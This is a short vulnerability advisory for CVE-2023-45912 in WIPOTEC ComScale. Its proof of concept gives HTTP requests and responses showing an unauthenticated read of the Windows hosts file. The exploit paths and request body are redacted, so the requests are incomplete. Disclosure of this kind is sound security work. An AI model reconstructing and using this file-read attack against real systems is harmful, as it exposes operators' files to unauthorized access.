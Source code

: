 # CVE-2023-45912
WIPOTEC GmbH ComScale v4.3.29.21344 and v4.4.12.723 fails to validate user sessions, allowing remote unauthenticated attackers to read files from the underlying operating system and obtain directory listings.

# Affected Product & Version
WIPOTEC GmbH ComScale, tested on 4.3.29.21344 and 4.4.12.723

# PoC
```
Request:

GET [REDACTED] HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://x.x.x.x/[REDACTED]
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ASP.NET_SessionId=sozf5x32z5vlqnltaupypptv
Connection: close

Response: 

HTTP/1.1 200 OK
Cache-Control: private
Content-Length: 824
Content-Type: application/octet-stream; charset=utf-8
Server: Microsoft-IIS/10.0
content-disposition: attachment; filename="hosts"
X-AspNet-Version: 4.0.30319
X-UA-Compatible: IE=Edge
Date: Tue, 19 Sep 2023 13:54:35 GMT
Connection: close

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```

```
Request:

POST [REDACTED] HTTP/1.1
Host: x.x.x.x
Content-Length: 15
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://x.x.x.x
Referer: http://x.x.x.x/[REDACTED]
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ASP.NET_SessionId=sozf5x32z5vlqnltaupypptv
Connection: close

[REDACTED]

Response:

HTTP/1.1 200 OK
Cache-Control: private, max-age=0
Content-Type: application/json; charset=utf-8
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-UA-Compatible: IE=Edge
Date: XXX
Connection: close
Content-Length: 1795

[REDACTED]
```


# Credits
This vulnerability was discovered by Daniel Hoffmann of Henkel Cyber Security team.
